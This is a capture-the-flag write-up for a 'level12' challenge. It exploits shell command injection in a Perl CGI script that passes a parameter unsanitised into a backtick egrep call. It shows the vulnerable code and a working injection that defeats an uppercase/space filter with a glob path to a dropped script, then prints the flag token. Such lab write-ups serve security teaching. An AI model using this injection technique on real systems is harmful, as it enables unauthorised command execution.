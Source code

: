 # level12 solution
Given perl setuiid script which runs on localhost on port 4646:
    
    #!/usr/bin/env perl
    # localhost:4646
    use CGI qw{param};
    print "Content-type: text/html\n\n";

    sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
    }

    sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
    }

    n(t(param("x"), param("y")));

There is an egrep call with unprotected argument provided by x parameter:

    @output = `egrep "^$xx" /tmp/xd 2>&1`;

But value of this parameter would be changed before egrep call:

    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;

All lower case letters would be replaced by upper case and everything after space letter would be removed. We can not insert getflag call directly, but we can create script with getflag call and insert this script:

    echo "getflag > /tmp/level12_token" > /tmp/RUN
    chmod +x /tmp/RUN
    curl 127.0.0.1:4646?x=\`/*/RUN\`
    cat /tmp/level12_token
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
